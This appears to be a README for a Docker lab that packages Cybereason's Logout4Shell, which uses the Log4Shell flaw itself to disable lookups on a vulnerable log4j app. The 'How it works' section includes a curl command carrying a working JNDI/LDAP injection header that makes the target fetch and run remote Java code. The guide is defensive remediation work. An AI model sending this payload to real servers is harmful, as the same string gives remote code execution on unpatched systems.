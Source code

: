 # Logout4Shell Container

## Description

Since the disclosure of the Apache Log4j vulnerability affecting versions 2.0 through 2.14.1 in December of 2021, enterprises and small businesses have made it a priority to mitigate this risk. This vulnerability was given the highest possible severity rating of 10 when the CVE-2021-44228 was published on December 9, 2021 which allows remote code execution on vulnerable servers. 

With the guidance from the Apache software foundation, the best mitigation against this vulnerability is to patch log4j to 2.17.0 and above. In response to this 
vulnerability organizations like Cybereason and FullHunt have developed tools to scan for the vulnerability and mitigate this risk without the need to patch 
or restart the server.

Logout4Shell Container is not intended to take any credit for the research and development of these tools, but was developed for POC and ease of deployment.

More information regarding these tools can be found on [Cybereason Logout4Shell](https://github.com/Cybereason/Logout4Shell/blob/main/README.md) and 
[FullHunt log4j-scan](https://github.com/fullhunt/log4j-scan/blob/master/README.md)


## How Logout4Shell Container works

The Logout4Shell Container is an application consisting of the Cybereason Logout4Shell webserver and LDAP server. When a JNDI lookup with an appropriate HTTP header is sent to the vulnearble app, log4j interpolates the string and queries the LDAP server. The LDAP server then provides directory information for the Java class which is hosted on the webserver through the Transient and Persistent payloads. The payload remediates the log4j vulnerabilty by changing the FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value from False to True. A quick warning that I haven't used this remediation in a production environment. More information regarding the potential impact it may have in a production environment can be read in Cybereason's documentation.

## POC Test Environment

- Logout4Shell Container deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- FullHunt log4j scan deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- Vulnerable app deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance. More information regarding this vulnerable app can be found on [Log4Shell sample vulnerable application]( https://github.com/christophetd/log4shell-vulnerable-app/blob/main/README.md).

## Test Environment Setup

### Logout4Shell Container

1. Launch an EC2 instance with the user data script below. This will run an OS update, install and start the Docker engine, ensure that the Docker daemon starts after each system reboot, and install git:
```
#!/bin/bash
yum update -y
amazon-linux-extras install -y docker
service docker start
system reboot
systemctl enable docker
yum install -y git
```
2. Install the latest version of Docker Compose:
```
sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```
3. Adjust permissions:
```
sudo chmod +x /usr/local/bin/docker-compose
```
4. Clone Logout4Shell Container repository:
```
git clone https://github.com/gbarretto/logout4shell-container.git
```
5. Change directory to logout4shell-container.
```
cd logout4shell-container
```
6. Open var.env in GNU nano to edit.
```
nano var.env
```
7. Replace ```<host_ip>``` with the public IP address of the EC2 instance making sure to keep quotation marks.  
8. Replace ```<mode_type>``` with Transient or Persistent making sure to keep quotation marks. 
9. Press ```Control + X``` to bring you to Save modified buffer question. Then press ```Y```. Then press ```Enter``` to write changes to var.env file.
10. Run the command below to add the ec2-user to the docker group so you can execute Docker commands without using sudo:
```
sudo usermod -a -G docker ec2-user
```
11. Log out of your SSH session using ```exit``` and log back in again to pick up the new docker group permissions. 
12. Change directory to logout4shell-container:
```
cd logout4shell-container
```
13. Build Docker images using the command below:
```
docker-compose build
```
- When images are successfully built you'll see:
```
Successfully built XXXXXXXXXXXX
Successfully tagged gbarretto/cybereason:ldap-persistent
```
14. Launch the container in detached mode:
```
docker-compose up -d
```
- When the containers is successfully launched you'll see:
```
Creating network "logout4shell-container_default" with the default driver
Creating webserver       ... done
Creating ldap-persistent ... done
```

### FullHunt log4j scan
1. Launch an EC2 instance with the same user data script from above.
2. SSH into your instance in a new terminal window and run the commands below to build the FullHunt log4j scan.
```
git clone https://github.com/fullhunt/log4j-scan.git
cd log4j-scan
sudo docker build -t log4j-scan .
```

### Vulnerable app
1. Launch an EC2 instance with the same user data script from above. Adjust the security group to allow inbound connection from the IP address of the Logout4Shell container on ports 1389, 8888 and 443 and from the IP address of the FullHunt log4j scan on port 443.
3. SSH into your instance in a new terminal window and run the command below to run the vulnerable app via Docker.
```
docker run --name vulnerable-app --rm -p 443:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
Also make sure this container isn't publicly accessible.

### Adjust Security Group for Logout4Shell Container
1. In the AWS Management Console adjust the security group for the Logout4Shell Container to allow inbound connection from the IP address of the Vulnerable App on ports 1389 and 8888.

## How it works
1. Let's first vaildate that the Vulnerable app is indeed vulnerable. From the FullHunt log4j scan terminal window, execute the command below replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance.
```
sudo docker run -it --rm log4j-scan -u http://<Vulnerable_App_IP_Address>:443
```
- After a few seconds you should receive the following response:
```
[!!!] Target Affected
```
2. To vaccinate the Vulnerable app run the command below from the Logout4Shell Container terminal window replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance and ```<Logout4Shell_Container_IP_Address>``` with the IP address of the Logout4Shell Container instance:
```
curl <Vulnerable_App_IP_Address>:443 -H 'X-Api-Version: ${jndi:ldap://<Logout4Shell_Container_IP_Address>:1389/a}'
```
- After a few seconds you should receive a similar response in the Vulnerable app terminal window:
```
HelloWorld                               : Received a request for API version ${jndi:ldap://XX.XX.XXX.XXX:1389/a}
```
- If you scroll up in the same window you should receive the response below validating the Transient or Persistent payload was executed:
```
Setting FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value to True
````
3. Run the FullHunt log4j scan again and you should receive the output below validating the log4j vulnerability has been remediated:
```
[•] Targets do not seem to be vulnerable.
```
